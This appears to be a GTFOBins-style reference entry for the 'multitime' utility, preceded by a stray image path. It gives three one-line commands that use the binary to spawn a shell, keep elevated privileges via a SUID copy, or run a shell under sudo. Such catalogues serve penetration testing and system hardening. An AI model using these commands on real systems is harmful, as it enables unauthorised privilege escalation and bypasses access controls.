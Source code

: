 ```yaml
---
functions:
  shell:
    - code: multitime /bin/sh
  suid:
    - code: ./multitime /bin/sh -p
  sudo:
    - code: sudo multitime /bin/sh
---
```

